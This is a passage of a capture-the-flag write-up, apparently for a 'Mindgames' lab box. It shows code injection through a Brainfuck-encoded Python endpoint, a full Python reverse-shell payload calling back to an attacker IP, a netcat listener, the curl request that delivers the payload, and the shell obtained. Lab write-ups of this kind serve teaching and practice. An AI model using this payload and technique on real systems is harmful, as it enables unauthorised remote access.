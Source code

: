 ## Initial foothold

The program on the server, at location `/api/bf`, is likely python. Encoding a dumb string like `import oops` and sending the brainfuck encoded request produces the following response:

~~~
HTTP/1.1 200 OK
Date: Fri, 04 Sep 2020 09:10:09 GMT
Content-Length: 118
Content-Type: text/plain; charset=utf-8
Connection: close

Traceback (most recent call last):
  File "<string>", line 1, in <module>
ModuleNotFoundError: No module named 'oops'
~~~

The error message confirms our assumption and python is likely running. Let's try to encode a reverse shell in python.

## Reverse shell

Based on our previous assumption, we can encode the following payload:

~~~
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.50.72",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
~~~

Open a listener on your attacker machine (`rlwrap nc -nlvp 4444`), encode the reverse shell payload using [this website](https://www.splitbrain.org/_static/ook/) and send the request to the server with the following command:

~~~
$ curl -d "+++++ +++++ [REDACTED] ++ ++<]> ++.<" -X POST http://10.10.211.54/api/bf
~~~

We now have a reverse shell:

~~~
kali@kali:/data/Mindgames$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.211.54] 38032
bash: cannot set terminal process group (677): Inappropriate ioctl for device
bash: no job control in this shell
mindgames@mindgames:~/webserver$ id
id
uid=1001(mindgames) gid=1001(mindgames) groups=1001(mindgames)
mindgames@mindgames:~/webserver$ 
~~~

## User flag

We are connected as `mindgames`, and we find the user flag in the home directory:
